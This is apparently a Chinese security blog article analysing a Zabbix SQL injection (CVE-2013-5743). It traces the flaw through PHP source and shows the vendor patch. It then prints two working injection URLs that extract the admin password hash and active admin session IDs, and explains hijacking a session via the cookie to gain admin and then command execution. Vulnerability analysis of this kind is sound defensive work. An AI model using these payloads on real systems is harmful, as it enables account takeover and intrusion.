





# Zabbix SQL Injection/RCE – CVE-2013-5743

2013/10/17 12:55 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from:[`www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/`](https://www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/)

## 0x00 背景

* * *

该漏洞于 2013 年 9 月 11 号提交，9 月 23 号得到确认，10 月 2 号发布补丁。

新出的 0day，可以通过 sql 注入直接进入后台，并执行系统命令。

该漏洞已有 metasploit 利用模块，请使用 Zabbix 的公司注意及时打补丁。

## 0x01 利用细节

* * *

该漏洞存在于 httpmon.php 脚本中，未登录用户也可访问。

这是由于 Zabbix 预先设定了一个 guest 用户，未登录用户都被设定为 guest 用户的访问权限。

如果 guest 用户被禁用，将不能访问 httpmon.php 脚本，利用该漏洞。

可以在管理员的管理面板中禁用 guest 用户。

从下图中可以看出来 applications 参数存在 sql 注入。



查看源代码：

```
foreach ($_REQUEST['applications'] as $application) { 
     add2favorites('web.httpmon.applications', $application); 
     }

```

进入了$application 变量中，跟踪 add2favorites 函数：

```
function add2favorites($favobj, $favid, $source = null) { 
     $favorites = get_favorites($favobj); 
     foreach ($favorites as $favorite) { 
          if ($favorite['source'] == $source && $favorite['value'] == $favid) { 
          return true; 
          } 
     } 
     DBstart(); 
     $values = array( 
          'profileid' => get_dbid('profiles', 'profileid'), 
          'userid' => CWebUser::$data['userid'], 
          'idx' => zbx_dbstr($favobj), 
          'value_id' => $favid,
          'type' => PROFILE_TYPE_ID 
);

```

进入$values 数组的 value_id 中，再往下跟踪就可以发现变量没有经过任何过滤进入到 sql 语句中：

```
return DBend(DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')'));

```

最新，Zabbix 的补丁：

```
Index: frontends/php/include/profiles.inc.php
===================================================================
--- frontends/php/include/profiles.inc.php  (revision 38884)
+++ frontends/php/include/profiles.inc.php  (working copy)
@@ -148,9 +148,9 @@
            'profileid' => get_dbid('profiles', 'profileid'),
            'userid' => self::$userDetails['userid'],
            'idx' => zbx_dbstr($idx),
-           $value_type => ($value_type == 'value_str') ? zbx_dbstr($value) : $value,
-           'type' => $type,
-           'idx2' => $idx2
+           $value_type => zbx_dbstr($value),
+           'type' => zbx_dbstr($type),
+           'idx2' => zbx_dbstr($idx2)
        );
        return DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')');// string value prepearing

if (isset($DB['TYPE']) && $DB['TYPE'] == ZBX_DB_MYSQL) {
    function zbx_dbstr($var) {
        if (is_array($var)) {
            foreach ($var as $vnum => $value) {
                $var[$vnum] = "'".mysql_real_escape_string($value)."'";
            }
            return $var;
        }
        return "'".mysql_real_escape_string($var)."'";
    }

```

变量处理经过了一层 mysql_real_escape_string 函数的过滤。

在上面那个漏洞中，下面的语句可以读取管理员的用户名与密码 md5 的 hash 值：

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28alias,0x7e,passwd,0x7e%29%20as%20char%29,0x7e%29%29%20from%20zabbix.users%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29 
```



成功获取，但是如果管理员的密码过于复杂，md5 碰撞不出来明文的怎么办呢？

发现 Zabbix 的数据库中还保存了用户的 session 值，它们似乎都不会失效，除非用户点击了退出登录。

下图展示了数据库中 sessions 表保存的内容：


那我们直接注入获取管理员的 session 值，直接登录吧，无需碰撞 md5 的 hash 了。

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28sessionid,0x7e,userid,0x7e,status%29%20as%20char%29,0x7e%29%29%20from%20zabbix.sessions%20where%20status=0%20and%20userid=1%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29 
```



用获取到的 session 替换 cookie 中 zbx_sessionid 中的值：



然后就登陆成功：



管理员进入后可以命令执行具体方法 wooyun 上已经有了：

[WooYun: sohu 的 zabbix,可导致内网渗透](http://www.wooyun.org/bugs/wooyun-2013-023089)

也可以直接反弹 shell 执行命令方便很多，具体姿势可以参考：

[反弹 shell 的十种姿势](http://zone.wooyun.org/content/5064)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [RansomWeb:一种新兴的 web 安全威胁](http://drops.wooyun.org/papers/4834)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [BCTF Writeup](http://drops.wooyun.org/papers/1071)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)